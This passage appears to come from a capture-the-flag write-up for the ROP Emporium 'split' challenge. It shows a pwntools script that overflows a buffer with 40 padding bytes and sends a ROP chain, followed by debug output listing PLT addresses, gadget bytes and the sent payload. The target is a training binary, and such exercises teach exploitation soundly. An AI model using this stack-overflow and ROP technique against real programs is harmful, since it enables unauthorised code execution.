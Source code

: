 ```python
offset = 40
padding = b"A" * offset
payload = b"".join([
   padding,
   rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

If you wish to learn more about the ROP feature in `pwntools`, you can use the [documentation as a reference](http://docs.pwntools.com/en/dev/rop/rop.html).

```
$ python3 exploit.py
[+] Starting local process './split' argv=[b'./split'] : pid 3367
[DEBUG] PLT 0x400550 puts
[DEBUG] PLT 0x400560 system
[DEBUG] PLT 0x400570 printf
[DEBUG] PLT 0x400580 memset
[DEBUG] PLT 0x400590 read
[DEBUG] PLT 0x4005a0 setvbuf
[*] '/home/kali/ctf/rop-emporium/split/x64/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './split'
[DEBUG] PLT 0x400550 puts
[DEBUG] PLT 0x400560 system
[DEBUG] PLT 0x400570 printf
[DEBUG] PLT 0x400580 memset
[DEBUG] PLT 0x400590 read
[DEBUG] PLT 0x4005a0 setvbuf
[DEBUG] PLT 0x400550 puts
[DEBUG] PLT 0x400560 system
[DEBUG] PLT 0x400570 printf
[DEBUG] PLT 0x400580 memset
[DEBUG] PLT 0x400590 read
[DEBUG] PLT 0x4005a0 setvbuf
[*] 0x0000: b'\xc3\x07@\x00\x00\x00\x00\x00' b'\xc3\x07@\x00\x00\x00\x00\x00'
    0x0008: b'`\x10`\x00\x00\x00\x00\x00' b'`\x10`\x00\x00\x00\x00\x00'
    0x0010: b'`\x05@\x00\x00\x00\x00\x00' b'`\x05@\x00\x00\x00\x00\x00'
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  c3 07 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  60 10 60 00  00 00 00 00  60 05 40 00  00 00 00 00  │`·`·│····│`·@·│····│
    00000040  0a                                                  │·│
    00000041
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```